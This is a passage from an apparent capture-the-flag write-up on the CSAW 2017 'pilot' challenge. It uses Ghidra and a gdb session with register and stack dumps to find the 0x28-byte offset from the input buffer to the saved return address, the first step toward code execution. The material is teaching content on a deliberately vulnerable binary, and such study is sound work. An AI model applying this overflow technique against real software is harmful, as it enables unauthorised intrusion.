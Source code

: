 Looking at the stack layout in Ghidra, there doesn't really look like there is anything between the start of our input and the return address. With our overflow we should be able to overwrite the return address and get code execution. Looking at the stack layout, we see that our input is stored at offset `0x28`, so we should be able to reach the saved return address from the start of our input with `0x28` bytes:

![stack_layout](pics/stack_layout.png)

We can also find the offset between the start of our input and the return address using gdb. We will set a breakpoint for right after the read call, and look at the memory there:

```
gef➤  b *0x400ae5
Breakpoint 1 at 0x400ae5
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/csaw17_pilot/pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffde80
[*]Command:15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x9               
$rbx   : 0x0               
$rcx   : 0x00007ffff776b081  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x40              
$rsp   : 0x00007fffffffde80  →  0x3832373533393531 ("15935728"?)
$rbp   : 0x00007fffffffdea0  →  0x0000000000400b90  →   push r15
$rsi   : 0x00007fffffffde80  →  0x3832373533393531 ("15935728"?)
$rdi   : 0x0               
$rip   : 0x0000000000400ae5  →   cmp rax, 0x4
$r8    : 0x0               
$r9    : 0x00007ffff7fd7d00  →  0x00007ffff7fd7d00  →  [loop detected]
$r10   : 0x6               
$r11   : 0x246             
$r12   : 0x00000000004008b0  →   xor ebp, ebp
$r13   : 0x00007fffffffdf80  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde80│+0x0000: 0x3832373533393531	 ← $rsp, $rsi
0x00007fffffffde88│+0x0008: 0x000000000040080a  →  <setvbuf@plt+10> add cl, ch
0x00007fffffffde90│+0x0010: 0x00007fffffffdf80  →  0x0000000000000001
0x00007fffffffde98│+0x0018: 0x0000000000000000
0x00007fffffffdea0│+0x0020: 0x0000000000400b90  →   push r15	 ← $rbp
0x00007fffffffdea8│+0x0028: 0x00007ffff767cb97  →  <__libc_start_main+231> mov edi, eax
```